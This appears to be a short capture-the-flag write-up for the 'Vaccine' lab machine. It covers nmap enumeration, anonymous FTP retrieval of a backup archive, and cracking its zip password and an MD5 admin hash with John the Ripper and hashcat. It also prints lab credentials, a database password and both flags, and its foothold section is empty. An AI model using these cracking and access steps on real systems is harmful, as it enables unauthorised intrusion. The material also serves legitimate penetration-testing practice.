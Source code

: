 ### Vaccine

### Target
10.129.95.174

#### Enumeration
> nmap -sV -sC 10.129.95.174
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-05 02:30 EDT
Nmap scan report for 10.129.95.174
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


//There are 3 ports open:
1. 21 (FTP) -> which have anonymous login allowed
2. 22 (SSH) -> don't have credentials
3. 80 (HTTP) -> can be accessed from browser

> ftp 10.129.95.174
Connected to 10.129.95.174.
220 (vsFTPd 3.0.3)
Name (10.129.95.174:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||10559|)
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
ftp> get backup.zip
local: backup.zip remote: backup.zip
229 Entering Extended Passive Mode (|||10479|)
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
100% |********************************|  2533        9.94 MiB/s    00:00 ETA
226 Transfer complete.
2533 bytes received in 00:00 (11.84 KiB/s)
ftp> ezit
?Invalid command.
ftp> exit
221 Goodbye.

//Login successful using anonymous
there is a file (backup.zip) which then download into local for further analysis

> unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 
password incorrect--reenter: 
password incorrect--reenter:

// password needed to unzip file
next we will crack the backup.zip password using john the ripper, starting with converting the zip file into hash

> zip2john backup.zip > hashes
> john --wordlist=/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2023-10-05 02:48) 14.28g/s 58514p/s 58514c/s 58514C/s 123456..oooooo

// here we got the password for backup.zip (line 80)
after unzipping the file, we got index.php and style.css files
from index.php file, we got credentials information
> admin:2cb42f8734ea607eefed3b70af13bbd3
the password seems hashed

> hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
2cb42f8734ea607eefed3b70af13bbd3:qwerty789

// using admin:qwerty789 login successful

### Foothold




user flag:
ec9b13ca4d6229cd5cc1e09980965bf7


### Privilege Escalation
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");



root flag:
dd6e058e814260bc70e9bbdef2715849

